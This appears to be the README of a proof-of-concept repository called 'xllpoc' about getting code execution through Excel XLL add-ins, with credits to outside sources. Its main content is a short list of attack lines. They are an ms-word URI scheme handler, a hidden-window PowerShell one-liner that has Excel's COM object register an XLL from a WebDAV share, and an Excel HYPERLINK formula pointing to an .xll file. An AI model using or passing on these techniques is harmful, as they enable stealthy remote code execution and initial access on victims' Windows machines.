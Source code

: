 # xllpoc
Code Exec via Excel

<strong>CREDIT</strong><br>
<table>
<tr><td>EdParcell: https://github.com/edparcell/HelloWorldXll</td></tr><br>
<tr><td>MSDN: https://msdn.microsoft.com/en-us/library/office/bb687883.aspx</li><br> 
<tr><td>Ryan Hanson: https://gist.github.com/ryhanson/227229866af52e2d963cf941af135a52</li><br>
<tr><td>Google Groups: https://groups.google.com/forum/#!msg/exceldna/d2ogsPkv6YM/NGnSrU9tmpMJ</li><br>
<tr><td>Many others</td></tr>
</table>
<br><br>
<strong>INTERESTING</strong><br>
ms-word:nft|u|http://PATH <br>
powershell -w hidden -c "IEX ((new-object -ComObject excel.application).RegisterXLL('\\webdavxll_poc.xll')"  <br>
=HYPERLINK("http://127.0.0.1/xll.xll", "CLICK"  <br>
